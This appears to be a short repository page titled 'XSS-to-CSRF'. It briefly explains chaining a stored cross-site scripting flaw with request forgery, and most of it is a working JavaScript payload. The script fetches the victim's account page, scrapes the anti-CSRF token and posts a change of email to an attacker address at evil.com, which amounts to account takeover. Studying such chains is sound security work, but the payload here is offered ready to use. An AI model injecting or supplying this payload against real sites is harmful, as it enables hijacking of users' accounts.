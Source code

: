 # XSS-to-CSRF

The code snippet provided demonstrates a **Cross-Site Request Forgery (CSRF)** attack utilizing a **Cross-Site Scripting (XSS)** vulnerability.

By combining a Stored XSS vulnerability to inject the malicious script and a CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a scenario where the victim would change his email address to one specified by the attacker in case the XSS payload gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/my-account", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "email=attackerm@evil.com&csrf=" + csrf
  
  var request = new XMLHttpRequest();
  request.open("POST", "/my-account/change-email", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```

